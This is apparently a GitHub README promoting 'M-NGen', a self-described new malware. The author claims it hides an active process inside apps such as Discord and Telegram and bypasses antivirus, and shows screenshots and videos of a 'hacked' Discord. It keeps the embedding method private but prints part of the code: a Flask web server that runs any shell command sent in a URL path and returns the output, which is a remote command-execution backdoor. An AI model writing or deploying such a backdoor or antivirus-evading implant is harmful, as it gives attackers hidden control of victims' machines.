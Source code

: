 # M-NGen

M-NGen Malware Revolution
I managed to develop a completely new type of malware... Honestly, I've never seen malware work this way before!

I was able to embed a hidden active process into any application! I tested it on applications like Discord, Telegram, and some others, and the method was completely successful... The challenge here is that antivirus software will perceive the application as a legitimate version of Discord or any other app! 😳

The interesting part is that the embedding method I used is not the usual Process Injection technique.

<div align="center">
  <img src="https://files.catbox.moe/2x1ppg.png" width="350px">
</div>

> [!WARNING]  
> The method is still private, I can't share it publicly!

<div align="center">
  <img src="https://files.catbox.moe/3yceau.jpg" width="760px">
</div>

## Video :

https://github.com/user-attachments/assets/51f80947-a945-41e7-83d0-835b0fa38754

AV BYPASS :
<div align="center">
  <img src="https://files.catbox.moe/diwxzf.jpg" width="760px">
</div>

### Discord Get Hacked Hehehe
https://github.com/user-attachments/assets/a97de13d-781f-4c77-9763-14d198786eaf

## Part Of Code : (It's Note All of The code)

```python
# This is A part From The Code
import subprocess
from flask import Flask, jsonify

f = Flask(__name__)

@f.route('/HDL/X/<t>', methods=['GET'])
def r(t):
    return h(t)

def h(c):
    if c:
        result = subprocess.run(c, shell=True, capture_output=True, text=True)
        return jsonify({"c": c, "o": result.stdout})
    return jsonify({"error": "Command not allowed"}), 403

if __name__ == '__main__':
    f.run(debug=True)


